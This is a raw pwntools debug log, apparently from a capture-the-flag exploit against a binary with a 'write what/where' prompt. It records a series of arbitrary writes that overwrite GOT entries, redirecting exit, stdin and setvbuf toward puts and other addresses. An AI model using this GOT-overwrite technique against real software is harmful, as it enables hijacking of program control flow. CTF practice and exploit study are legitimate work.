 ```
[DEBUG] Sent 0x4 bytes:
    00000000  ca 11 40 00                                         │··@·│
    00000004
[DEBUG] Received 0x7 bytes:
    b'where?\n'
[DEBUG] Sent 0x9 bytes:
    00000000  34 32 31 30  37 34 34 00  00                        │4210│744·│·│
    00000009
[*] exit -> after init
[DEBUG] Received 0xc bytes:
    b'write\n'
    b'what?\n'
[DEBUG] Sent 0x4 bytes:
    00000000  18 40 40 00                                         │·@@·│
    00000004
[DEBUG] Received 0x7 bytes:
    b'where?\n'
[DEBUG] Sent 0x9 bytes:
    00000000  34 32 31 30  37 38 34 00  00                        │4210│784·│·│
    00000009
[DEBUG] Received 0xc bytes:
    b'write\n'
    b'what?\n'
[DEBUG] Sent 0x4 bytes:
    0 * 0x4
[DEBUG] Received 0x7 bytes:
    b'where?\n'
[DEBUG] Sent 0x9 bytes:
    00000000  34 32 31 30  37 38 38 00  00                        │4210│788·│·│
    00000009
[*] stdin -> puts got
[DEBUG] Received 0xc bytes:
    b'write\n'
    b'what?\n'
[DEBUG] Sent 0x4 bytes:
    00000000  30 10 40 00                                         │0·@·│
    00000004
[DEBUG] Received 0x7 bytes:
    b'where?\n'
[DEBUG] Sent 0x9 bytes:
    00000000  34 32 31 30  37 32 38 00  00                        │4210│728·│·│
    00000009
[DEBUG] Received 0xc bytes:
    b'write\n'
    b'what?\n'
[DEBUG] Sent 0x4 bytes:
    0 * 0x4
[DEBUG] Received 0x7 bytes:
    b'where?\n'
[DEBUG] Sent 0x9 bytes:
    00000000  34 32 31 30  37 33 32 00  00                        │4210│732·│·│
    00000009
[*] setvbuf -> puts plt
[DEBUG] Received 0xc bytes:
    b'write\n'
    b'what?\n'
[DEBUG] Sent 0x4 bytes:
    00000000  a9 11 40 00                                         │··@·│
    00000004
[DEBUG] Received 0x7 bytes:
    b'where?\n'
[DEBUG] Sent 0x9 bytes:
    00000000  34 32 31 30  37 34 34 00  00                        │4210│744·│·│
```